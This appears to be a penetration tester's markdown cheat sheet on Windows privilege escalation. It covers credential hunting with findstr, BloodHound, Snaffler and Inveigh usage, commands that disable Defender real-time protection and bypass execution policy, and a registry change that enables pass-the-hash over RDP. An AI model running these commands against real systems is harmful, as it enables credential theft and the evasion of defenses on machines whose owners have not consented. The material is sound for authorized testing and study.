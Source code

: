 # Windows Priv Esc

## Credential hunting code chunks

<img width="657" alt="Screen Shot 2022-08-06 at 2 44 39 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/96928590-0c83-4281-bbf9-cd0e5c5be354">

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

``` 
dir secret.doc /s /p
```


## Find location of file using cmd.exe
```
where /R C:\ waldo.txt
```

### Snaffler 
Snaffler is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment. 

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/96179d5a-2b09-4149-8540-927ba2e13e9c)


### Bloodhound

To Run bloodhound. Upload and run sharphound to the victim.

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/00c27b7f-51ca-49bd-9ec2-db1c5c8887b2)

Download zipfile to attack machine. Start neo4j.

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8f08ccad-6198-4250-b2fd-baacef6d37b4)

Start Bloodhound. Login

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/373b653d-01df-4491-942b-98dad01b9f2a)

On right side of screen, upload data, select zip file.

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/5b2b0c34-e3d0-47bd-9417-93f34e58df93)


### Inveigh
Like responder.
![Pasted image 20230508074627](https://github.com/dbissell6/Shadow_Stone/assets/50979196/2ee76561-6c3a-4941-a859-0212c76bd8aa)

![Pasted image 20230508074732](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e51ce110-da44-4b04-aa14-5183bb46827f)

## AV 
Get status of AV

![Pasted image 20230508095011](https://github.com/dbissell6/Shadow_Stone/assets/50979196/deb17c10-cb12-4381-8f96-040497f65966)

### Applocker 
Windows way to whitelist acceptable apps to run

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### See if Powershell is constrained

![Pasted image 20230508095505](https://github.com/dbissell6/Shadow_Stone/assets/50979196/61ec3ded-a452-4e9e-861d-856682505547)

## Making changes to AV

Turn off AV - need admin
`Set-MpPreference -DisableRealtimeMonitoring $true`

Turn off Real-time
```
Set-MpPreference -DisableIOAVProtection $true
```

<img width="783" alt="Screen Shot 2022-10-10 at 2 15 20 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/38ce0352-57e2-4ccb-a68a-bbb6e49eb5ed">

## Temporary bypass
You can bypass the execution policy for the current PowerShell session by running the following command:

```
Set-ExecutionPolicy Bypass -Scope Process
```

To allow Pass-the-Hash (PTH) attacks over Remote Desktop Protocol (RDP) and disable Restricted Admin mode, you need to set the following registry value to 0
```
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0

```


https://github.com/r3motecontrol/Ghostpack-CompiledBinaries


## Process search
powershell code
```
Get-NetTCPConnection | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}}
```
<img width="569" alt="Screen Shot 2022-08-05 at 5 23 55 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/9db828d4-b9dd-4a77-a096-56761e7380b9">

